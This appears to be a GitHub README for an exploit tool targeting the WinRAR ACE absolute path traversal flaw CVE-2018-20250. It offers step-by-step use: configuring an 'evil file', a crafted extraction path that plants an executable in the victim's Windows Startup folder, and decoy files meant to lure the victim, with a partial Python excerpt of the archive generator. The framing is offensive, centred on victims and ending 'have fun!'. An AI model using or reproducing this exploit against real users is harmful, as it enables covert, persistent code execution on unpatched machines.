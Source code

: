 # hack-winrar
WinRar is a very widely known software for windows. Previous version of WinRaR was a vulnerability which has been patched in Feb-2019. Most of the people didn't update winrar so they are vulnerable in this Absolute Path Traversal bug [CVE-2018-20250]

exp for [Extracting Code Execution From Winrar](https://research.checkpoint.com/extracting-code-execution-from-winrar/)

[poc](https://github.com/Ridter/acefile) by Ridter

how to use ?

you just need to install python 3.7, and prepare a evil file you want to run, set the values you want, **this exp script will generate the evil archive file automatically**!

1. set the values you want

```
... ...

# The archive filename you want
rar_filename = "test.rar"
# The evil file you want to run
evil_filename = "calc.exe"
# The decompression path you want, such shown below
target_filename = r"C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\hi.exe"
# Other files to be displayed when the victim opens the winrar
# filename_list=[]
filename_list = ["hello.txt", "world.txt"]

... ...

def get_right_hdr_crc(filename):
    # This command may be different, it depends on the your Python3 environment.
    p = os.popen('py -3 acefile.py --headers %s'%(filename))
    res = p.read()
    pattern = re.compile('right_hdr_crc : 0x(.*?) | struct')
    result = pattern.findall(res)
    right_hdr_crc = result[0].upper()
    return hex2raw4(right_hdr_crc)

... ...

```

2. run the exp, exp generated the `test.rar` automatically

![](http://imglf5.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMVExtcGVqSGZUdDFBWGgyaGU0NGpHWUlPdmU1bHJTMFJ3PT0.jpg?imageView&thumbnail=500x0)

3. if the victim opens the `test.rar`, he will see the file `hello.txt` and `world.txt`, you can also add more files, more attractive files.

![](http://imglf6.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMV0IrVk1NeUxJcWh6aXV3TVFHek8zbXBZaFNhamY4aHBBPT0.jpg?imageView&thumbnail=500x0)

4. when he unpacks the file, the victim's user startup directory will have one more file named `hi.exe`, actually it's a `calc.exe`. when he restart the computer, the `hi.exe` will run.

![](http://imglf3.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMV0puYkhZTVkvc1hmK2E3KzBYdmZ0cU5yUzFGVVk0THRnPT0.jpg?imageView&thumbnail=500x0)

have fun! :)

